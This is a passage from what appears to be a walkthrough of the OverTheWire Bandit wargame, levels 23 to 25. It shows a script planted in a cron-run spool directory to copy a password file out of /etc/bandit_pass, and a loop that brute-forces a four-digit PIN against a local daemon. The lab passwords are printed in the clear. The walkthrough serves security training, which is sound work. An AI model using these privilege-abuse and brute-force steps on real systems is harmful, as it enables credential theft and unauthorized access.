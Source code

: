 ```bash
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

ls -la /var/spool/
drwxrwx-wx 42 root bandit24 4096 Sep 28 23:40 bandit24

mktemp -d
cd /tmp/tmp.nBUM7DsmQ5
bandit23@bandit:/tmp/tmp.nBUM7DsmQ5$ nano firstscript.sh

#!/bin/bash
 cat /etc/bandit_pass/bandit24 >> /tmp/tmp.nBUM7DsmQ5/bandit24pw

chmod 777 firstscript.sh
cp firstscript.sh /var/spool/bandit24
chmod 777 /tmp/tmp.nBUM7DsmQ5

# Wait a minute
bandit23@bandit:/tmp/tmp.nBUM7DsmQ5$ cat bandit24pw

UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

```

---

## Bandit Level 24 → Level 25

**Level Goal**

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

mktemp -d
/tmp/tmp.OTU1lR6vjK

nano brutepin.sh
#!/bin/bash
for i in {0000..9999}
do
        echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done

chmod 700 brutepin.sh
./brutepin.sh > pwpluspin.txt
nc localhost 30002 < pwpluspin.txt
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

---